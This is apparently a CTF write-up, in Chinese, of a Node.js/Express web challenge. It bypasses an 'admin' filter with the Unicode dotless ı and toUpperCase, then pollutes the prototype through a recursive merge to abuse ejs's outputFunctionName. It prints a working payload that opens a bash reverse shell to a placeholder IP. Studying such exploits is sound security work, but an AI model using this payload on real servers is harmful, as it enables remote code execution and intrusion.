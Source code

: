 ![[Pasted image 20230223233434.png|500]]

![[Pasted image 20230223233443.png|800]]

![[Pasted image 20230223233702.png|800]]

去掉杂七杂八的东西后大概是这么个结构

![[Pasted image 20230223235540.png|300]]

有用的貌似就一个`routes/index.js`

```javascript
var express = require('express');
var router = express.Router();
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
const clone = (a) => {
    return merge({}, a);
}
function safeKeyword(keyword) {
    if (keyword.match(/(admin)/is)) {
        return keyword
    }

    return undefined
}

router.get('/', function (req, res) {
    if (!req.session.user) {
        res.redirect('/login');
    }
    res.outputFunctionName = undefined;
    res.render('index', data = {'user': req.session.user.user});
});


router.get('/login', function (req, res) {
    res.render('login');
});



router.post('/login', function (req, res) {
    if (req.body.Submit == "register") {
        if (safeKeyword(req.body.userid)) {
            res.end("<script>alert('forbid word');history.go(-1);</script>")
        }
        req.session.user = {
            'user': req.body.userid.toUpperCase(),
            'passwd': req.body.pwd,
            'isLogin': false
        }
        res.redirect('/');
    }
    else if (req.body.Submit == "login") {
        if (!req.session.user) {res.end("<script>alert('register first');history.go(-1);</script>")}
        if (req.session.user.user == req.body.userid && req.body.pwd == req.session.user.passwd) {
            req.session.user.isLogin = true;
        }
        else {
            res.end("<script>alert('error passwd');history.go(-1);</script>")
        }

    }
    res.redirect('/');;
});
router.post('/action', function (req, res) {
    if (req.session.user.user != "ADMIN") {res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")}
    req.session.user.data = clone(req.body);
    res.end("<script>alert('success');history.go(-1);</script>");
});
router.get('/info', function (req, res) {
    res.render('index', data = {'user': res.outputFunctionName});
})
module.exports = router;
```

首先就是这个喜闻乐见的`merge`函数了，构造原型链污染的好朋友🙏

使用`merge`来实现`clone`函数，而`clone`在`/action`路由中被使用

关注`/action`路由，发现在调用`clone`函数之前存在对当前用户名的判断，只有当用户名为ADMIN时才能继续

那就注册一个用户名为ADMIN的账号，然而，观察到处理注册的`/login`路由中调用了`safeKeyword`检查用户名合法性，而`safeKeyword`恰恰ban掉了ADMIN

正则表达式和字符串比较应该是没有什么空子可以钻了，但是走的肯定是`/action`这条路，除非出题人真的做好了结束后被选手暴打一顿的准备（

继续审计注册相关逻辑，发现注册成功时向`session`写入的用户名经过了`toUpperCase`的处理以确保全为大写

结合首页的用户名只支持大写的提示，判断突破口在于`toUpperCase`相关的处理

然后就找到了[这篇文章](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)

![[Pasted image 20230224005515.png|800]]

![[Pasted image 20230224005810.png|300]]

在Unicode的小写字母分类中也找到了这个玩意，它的大写正好是拉丁大写字母`I`，通过这玩意就可以绕过注册时的正则判断啦

```
username: admın
password: 
```


![[Pasted image 20230224010341.png|800]]

然后就可以构造原型链污染啦

![[Pasted image 20230224010553.png|800]]

出题人大大贴心地设置了`/info`路由，把`outputFunctionName`写在了里面，明示`ejs`的漏洞

![[Pasted image 20230224010824.png|400]]

`ejs`的版本也印证了这一点

```json
{
	"__proto__": {
		"outputFunctionName": "x;process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1\"');s"
	}
}
```

![[Pasted image 20230224014908.png|1300]]

再重新`GET`一次让payload编译进模板

![[Pasted image 20230224015015.png|800]]

![[Pasted image 20230224014653.png|500]]

#Web #nodejs #ejs #unicode #js #bypass #RCE #reverse_shell